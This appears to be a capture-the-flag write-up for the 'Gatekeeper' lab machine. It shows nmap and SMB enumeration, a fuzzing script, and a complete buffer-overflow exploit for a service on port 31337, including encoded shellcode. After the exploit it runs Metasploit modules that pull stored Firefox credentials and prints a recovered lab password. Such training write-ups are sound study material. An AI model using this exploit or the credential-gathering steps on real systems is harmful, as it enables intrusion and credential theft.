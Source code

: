# Gatekeeper

## nmap

PORT      STATE    SERVICE            VERSION
135/tcp   open     msrpc              Microsoft Windows RPC
139/tcp   open     netbios-ssn        Microsoft Windows netbios-ssn
445/tcp   open     microsoft-ds       Windows 7 Professional 7601 Service Pack 1 microsoft-ds (workgroup: WORKGROUP)
3389/tcp  open     ssl/ms-wbt-server?
|_ssl-date: 2020-08-12T13:29:34+00:00; +2s from scanner time.
3925/tcp  filtered zmp
5005/tcp  filtered avt-profile-2
31337/tcp open     Elite?

Host script results:
|_clock-skew: mean: 1h00m02s, deviation: 2h00m00s, median: 1s
|_nbstat: NetBIOS name: GATEKEEPER, NetBIOS user: <unknown>, NetBIOS MAC: 02:c3:73:ed:0c:d9 (unknown)
| smb-os-discovery: 
|   OS: Windows 7 Professional 7601 Service Pack 1 (Windows 7 Professional 6.1)
|   OS CPE: cpe:/o:microsoft:windows_7::sp1:professional
|   Computer name: gatekeeper
|   NetBIOS computer name: GATEKEEPER\x00
|   Workgroup: WORKGROUP\x00
|_  System time: 2020-08-12T09:29:27-04:00
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-security-mode: 
|   2.02: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2020-08-12T13:29:27
|_  start_date: 2020-08-12T13:24:07



## smb Enumeration

### smbclient

After enumeration we find some shares lets see with smbmap if we can see can read any.

![image-20200812191212039](Gatekeeper.assets/image-20200812191212039.png)



got file brainpain.exe

![image-20200812191736874](Gatekeeper.assets/image-20200812191736874.png)





## buffer



#### fuzzing

access violation is there now lets find offset

![image-20200815205011759](Gatekeeper.assets/image-20200815205011759.png)





```python
#!/usr/bin/env python

import socket
import sys
from time import sleep
ip = '172.16.62.128'
port = 31337

buf = ""
s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

for i in range(30):
    buf += "A" * 100
    print "Send buffer of {} to {}:{}".format(len(buf),ip,port)
    
    try:
        s.connect((ip, port))
        s.send(buf)
        sleep(1)
        s.close()

    except:
        print "could not  connect to {}:{}".format(ip,port)
        sys.exit(0)
```



#### offset



![image-20200815211200189](Gatekeeper.assets/image-20200815211200189.png)

offset at 146



#### EIP

controlling EIP

![image-20200815211400645](Gatekeeper.assets/image-20200815211400645.png)

```python
buffer = "A" * 146 + "B" * 4
```





#### badchars

```shell
badchars "\x00\x0a"
```



![image-20200815212657212](Gatekeeper.assets/image-20200815212657212.png)





#### finding return address

found two return address

![image-20200815214116241](Gatekeeper.assets/image-20200815214116241.png)



080414C3
080416BF

valid return address

```assembly
080414C3
```



#### exploit



local exploit

````python
#!/usr/bin/env python

import socket
import sys
from time import sleep
ip = '172.16.62.128'
port = 31337

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

payload = ("\xdb\xd0\xb8\x96\x9a\x20\x8a\xd9\x74\x24\xf4\x5e\x31\xc9\xb1"
        "\x52\x31\x46\x17\x83\xc6\x04\x03\xd0\x89\xc2\x7f\x20\x45\x80"
        "\x80\xd8\x96\xe5\x09\x3d\xa7\x25\x6d\x36\x98\x95\xe5\x1a\x15"
        "\x5d\xab\x8e\xae\x13\x64\xa1\x07\x99\x52\x8c\x98\xb2\xa7\x8f"
        "\x1a\xc9\xfb\x6f\x22\x02\x0e\x6e\x63\x7f\xe3\x22\x3c\x0b\x56"
        "\xd2\x49\x41\x6b\x59\x01\x47\xeb\xbe\xd2\x66\xda\x11\x68\x31"
        "\xfc\x90\xbd\x49\xb5\x8a\xa2\x74\x0f\x21\x10\x02\x8e\xe3\x68"
        "\xeb\x3d\xca\x44\x1e\x3f\x0b\x62\xc1\x4a\x65\x90\x7c\x4d\xb2"
        "\xea\x5a\xd8\x20\x4c\x28\x7a\x8c\x6c\xfd\x1d\x47\x62\x4a\x69"
        "\x0f\x67\x4d\xbe\x24\x93\xc6\x41\xea\x15\x9c\x65\x2e\x7d\x46"
        "\x07\x77\xdb\x29\x38\x67\x84\x96\x9c\xec\x29\xc2\xac\xaf\x25"
        "\x27\x9d\x4f\xb6\x2f\x96\x3c\x84\xf0\x0c\xaa\xa4\x79\x8b\x2d"
        "\xca\x53\x6b\xa1\x35\x5c\x8c\xe8\xf1\x08\xdc\x82\xd0\x30\xb7"
        "\x52\xdc\xe4\x18\x02\x72\x57\xd9\xf2\x32\x07\xb1\x18\xbd\x78"
        "\xa1\x23\x17\x11\x48\xde\xf0\xb2\x9d\xde\x01\xa3\x9f\x1e\x17"
        "\x80\x29\xf8\x7d\xf6\x7f\x53\xea\x6f\xda\x2f\x8b\x70\xf0\x4a"
        "\x8b\xfb\xf7\xab\x42\x0c\x7d\xbf\x33\xfc\xc8\x9d\x92\x03\xe7"
        "\x89\x79\x91\x6c\x49\xf7\x8a\x3a\x1e\x50\x7c\x33\xca\x4c\x27"
        "\xed\xe8\x8c\xb1\xd6\xa8\x4a\x02\xd8\x31\x1e\x3e\xfe\x21\xe6"
        "\xbf\xba\x15\xb6\xe9\x14\xc3\x70\x40\xd7\xbd\x2a\x3f\xb1\x29"
        "\xaa\x73\x02\x2f\xb3\x59\xf4\xcf\x02\x34\x41\xf0\xab\xd0\x45"
        "\x89\xd1\x40\xa9\x40\x52\x70\xe0\xc8\xf3\x19\xad\x99\x41\x44"
        "\x4e\x74\x85\x71\xcd\x7c\x76\x86\xcd\xf5\x73\xc2\x49\xe6\x09"
        "\x5b\x3c\x08\xbd\x5c\x15")

ret = "\xC3\x14\x04\x08"                            #080416BF       080414C3

nops = "\x90" * 16

buf = "A" * 146 + ret + nops + payload 

s.connect((ip, port))
s.send(buf + "\r\n")
s.close()
````



![image-20200815223036229](Gatekeeper.assets/image-20200815223036229.png)



shell

![image-20200815223612830](Gatekeeper.assets/image-20200815223612830.png)





## Post



```
run post/windows/gather/enum_applications
```

![image-20200815232426609](Gatekeeper.assets/image-20200815232426609.png)

moziila firefox is installed lets try to gather any loot or credentials from it



```
run post/multi/gather/firefox_creds
```

![image-20200815232928139](Gatekeeper.assets/image-20200815232928139.png)



![image-20200815233756728](Gatekeeper.assets/image-20200815233756728.png)

#### credentials from loot

mayor

8CL7O1N78MdrCIsV





using crackmapexec we got new credentials

![image-20200815234056047](Gatekeeper.assets/image-20200815234056047.png)



#### psexec

![image-20200815235231014](Gatekeeper.assets/image-20200815235231014.png)
